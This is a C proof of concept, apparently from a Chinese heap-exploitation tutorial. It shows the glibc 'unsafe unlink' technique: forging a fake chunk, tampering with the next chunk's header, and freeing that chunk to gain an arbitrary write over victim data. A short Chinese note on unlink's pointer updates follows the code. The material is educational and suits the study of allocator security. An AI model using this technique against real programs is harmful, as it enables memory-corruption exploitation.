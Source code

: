 ```c

int main() {
  unsigned long long *chunk1, *chunk2;
  struct chunk_structure *fake_chunk, *chunk2_hdr;
  char data[20];

  // First grab two chunks (non fast)
  chunk1 = malloc(0x80);
  chunk2 = malloc(0x80);
  printf("%p\n", &chunk1);
  printf("%p\n", chunk1);
  printf("%p\n", chunk2);

  // Assuming attacker has control over chunk1's contents
  // Overflow the heap, override chunk2's header

  // First forge a fake chunk starting at chunk1
  // Need to setup fd and bk pointers to pass the unlink security check
  fake_chunk = (struct chunk_structure *)chunk1;
  fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
  fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

  // Next modify the header of chunk2 to pass all security checks
  chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
  chunk2_hdr->prev_size = 0x80;  // chunk1's data region size
  chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

  // Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
  // This results in chunk1 pointer pointing to chunk1 - 3
  // i.e. chunk1[3] now contains chunk1 itself.
  // We then make chunk1 point to some victim's data
  free(chunk2);
  printf("%p\n", chunk1);
  printf("%x\n", chunk1[3]);

  chunk1[3] = (unsigned long long)data;

  strcpy(data, "Victim's data");

  // Overwrite victim's data using chunk1
  chunk1[0] = 0x002164656b636168LL;

  printf("%s\n", data);

  return 0;
}
```

unlink过程中，会设置

1. Set `P->fd->bk` = `P->bk`.
2. Set `P->bk->fd` = `P->fd`.
